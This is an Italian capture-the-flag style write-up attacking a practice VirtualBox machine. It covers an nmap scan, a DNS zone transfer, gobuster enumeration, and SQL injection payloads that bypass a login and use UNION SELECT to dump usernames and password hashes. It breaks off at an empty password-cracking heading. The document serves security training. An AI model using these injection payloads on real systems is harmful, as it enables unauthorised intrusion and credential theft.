

# Foothold

## target machine individuation

     nmap -sP 192.168.56.0/24                                                                                      1 ⚙
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-03 12:01 CEST
    mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
    Nmap scan report for 192.168.56.101
    Host is up (0.00032s latency).
    Nmap scan report for 192.168.56.105
    Host is up (0.0018s latency).
    Nmap done: 256 IP addresses (2 hosts up) scanned in 6.96 seconds

## nmap

    $ sudo nmap -sS 192.168.56.105                                                                              1 ⨯ 1 ⚙
    sudo: impossibile risolvere l'host roronoa: Errore temporaneo nella risoluzione del nome
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-03 12:06 CEST
    mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
    Nmap scan report for 192.168.56.105
    Host is up (0.00020s latency).
    Not shown: 997 closed tcp ports (reset)
    PORT   STATE SERVICE
    22/tcp open  ssh
    53/tcp open  domain
    80/tcp open  http
    MAC Address: 08:00:27:A2:D0:B4 (Oracle VirtualBox virtual NIC)
    
    Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds

## DNS ZT

    $ dig axfr @sa.secureserver.vdsi secureserver.vdsi                                                                1 ⚙
    
    ; <<>> DiG 9.18.0-2-Debian <<>> axfr @sa.secureserver.vdsi secureserver.vdsi
    ; (1 server found)
    ;; global options: +cmd
    secureserver.vdsi.	3600	IN	SOA	ns.secureserver.vdsi. sa.secureserver.vdsi. 1 3600 600 86400 3600
    secureserver.vdsi.	3600	IN	NS	ns1.secureserver.vdsi.
    secureserver.vdsi.	3600	IN	NS	ns2.secureserver.vdsi.
    6ee67.secureserver.vdsi. 3600	IN	A	10.1.1.1
    8059a.secureserver.vdsi. 3600	IN	A	10.1.1.5
    admin.secureserver.vdsi. 3600	IN	A	10.1.1.4
    cdn.secureserver.vdsi.	3600	IN	A	10.1.1.3
    e16ab.secureserver.vdsi. 3600	IN	CNAME	www.secureserver.vdsi.
    git.secureserver.vdsi.	3600	IN	A	10.1.1.4
    ns1.secureserver.vdsi.	3600	IN	A	10.0.0.1
    ns2.secureserver.vdsi.	3600	IN	A	10.0.0.2
    sa.secureserver.vdsi.	3600	IN	A	10.1.1.2
    secret.secureserver.vdsi. 3600	IN	A	10.1.1.3
    shell.secureserver.vdsi. 3600	IN	A	10.1.1.10
    static.secureserver.vdsi. 3600	IN	CNAME	www.secureserver.vdsi.
    secureserver.vdsi.	3600	IN	SOA	ns.secureserver.vdsi. sa.secureserver.vdsi. 1 3600 600 86400 3600
    ;; Query time: 0 msec
    ;; SERVER: 192.168.56.105#53(sa.secureserver.vdsi) (TCP)
    ;; WHEN: Sun Jul 03 14:22:46 CEST 2022
    ;; XFR size: 16 records (messages 1, bytes 404)

## Server web

Tra i vari nomi DNS individuati, ce n'è uno che risulta essere un vhost:
**e16ab.secureserver.htb** . Se ci si va, viene mostrato da browser "403 Forbidden".
Tuttavia, sia con curl che da BurpSuite, il codice di ritorno HTTP
è 200. Si tratta di una pagina costruita per ingannare.

Enumeriamo le directory del vhost.

### gobuster

    $ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://e16ab.secureserver.vdsi -x php,js,html,txt
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://e16ab.secureserver.vdsi
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Extensions:              html,txt,php,js
    [+] Timeout:                 10s
    ===============================================================
    2022/07/03 19:05:39 Starting gobuster in directory enumeration mode
    ===============================================================
    /css                  (Status: 301) [Size: 185] [--> http://e16ab.secureserver.vdsi/css/]
    /register.php         (Status: 200) [Size: 560]                                          
    /uploads              (Status: 301) [Size: 185] [--> http://e16ab.secureserver.vdsi/uploads/]
    /secret.php           (Status: 200) [Size: 1112]                                             
    Progress: 116985 / 150005 (77.99%)                                                          [ERROR] 2022/07/03 19:05:49 [!] parse "http://e16ab.secureserver.vdsi/error\x1f_log.php": net/url: invalid control character in URL
                                                                                                 
    ===============================================================
    2022/07/03 19:05:52 Finished
    ===============================================================

### SQL injection 1

La pagina **register.php** non è accessibile. Mentre la pagina **secret.php**
presenta un form di login. Se si vede il sorgente html della pagina,
c'è una riga di un bottone di input di debug con valore false che però
è commentata.

Provando a fare il login con credenziali abc:abc allo URL
**<http://e16ab.secureserver.vdsi/secret.php?debug=true>**, viene stampata
la query che viene effettuata:

    SELECT * FROM users where (username='abc') AND (password = '900150983cd24fb0d6963f7d28e17f72')

Facciamo SQL injection sullo username, inserendo:

    a') OR 1=1; #

Si viene redirezionati alla pagina:
**<http://e16ab.secureserver.vdsi/S34rch_ev3ryWh3ree.php>**.

### SQL injection 2

Questa pagina presenta un altro form (HTTP POST), con cui è possibile
cercaare dei prodotti inserendo una stringa. Non inserendo nulla e
premendo il pulsante per la ricerca, appare la seguente tabella:

Se si guarda il sorgente della pagina, e c'è sempre un riferimento al
campo debug, ma stavolta non è utile, viene esplicitamente indicato
che non verrà fornita alcuna info di debug (molto simpaticamente :) ).

Proviamo ad inserire qualche lettera e vediamo che succede:

Vengono mostrati solo i file che iniziano con la lettera inserita. La
query sarà qualcosa del tipo:

    SELECT * FROM products WHERE product_name LIKE '${input}%'

Proviamo ad usare l'apice e vediamo cosa succede.

Sembra crashare. Anche inserendo la stringa **b%'** è lo stesso. Proviamo
a mettere un commento dopo e vediamo se riusciamo ad ottenere le
stesse righe di prima.
Come visibile dalla seguente immagine, inserendo la stringa **b%' #** si
ottiene quanto atteso.

A questo punto, proviamo a fare delle SQL injections di tipo **UNION
SELECT** per ottenere informazioni. Dalla tabella mostrata, siamo sicuri
che almeno 4 colonne ci sono, ma probabilmente saranno almeno 5, in
quanto sembra plausibile che per record del genere ci sia una colonna
ID.

Effettivamente, la tabella ha 5 colonne. L'injection che l'ha rivelato
è stata: **%' UNION SELECT ALL 1,2,3,4,5 #**:

## Database Information Gathering

### general infos

Continuiamo a sfruttare la SWL injection per ottenere nome del
database, dell'utente con cui gira, della versione del DB.
Lo facciamo con il seguente payload iniettato:

    %' UNION SELECT ALL 1,database(),user(),version(),5 #

Dunque abbiamo:

-   DB name = **sqlitraining**
    utente = **root**
    versione = **8.0.26**

### tables

Vediamo quali tables sono presenti nel database, facendoci restituire
la colonna **tablename** da INFORMATIONSCHEMA.columns con il seguente
payload:

    %' UNION SELECT 1,table_name,3,4,5 from information_schema.columns #

Ce ne sono tanti, molti di più di quelli visibili nella seguente
immagina, ma uno interessante può essere **users**, che contiene gli
username e le hash delle passwords degli utenti.

### users

Per scoprire i nomi delle colonne della tabella **users** usiamo il
seguente payload:

    %' UNION SELECT 1,column_name,3,4,5 from information_schema.columns where table_name = 'users' #

Prendiamo username, password e description con la seguente query
iniettata:

    ' UNION SELECT 1,username,password,description,5 from users #

Si ottiene quanto segue:

Tutti gli utenti hanno la stessa password hashata, proviamo a
crackarla.

Tuttavia, la password non viene mostrata tutta per questioni di
spazio. Dobbiamo estrarla pezzo per pezzo, usando la funzione SQL
**SUBSTRING(string, pos, len)**. Notare che pos parte da 1.

    ' UNION SELECT 1,username,SUBSTRING(password, 1, 10),4,5 from users #

Pezzi:
0c4fce23e1
16d23f8d25
526071ca6e
3a

In realtà è lunga uguale!

## Password cracking

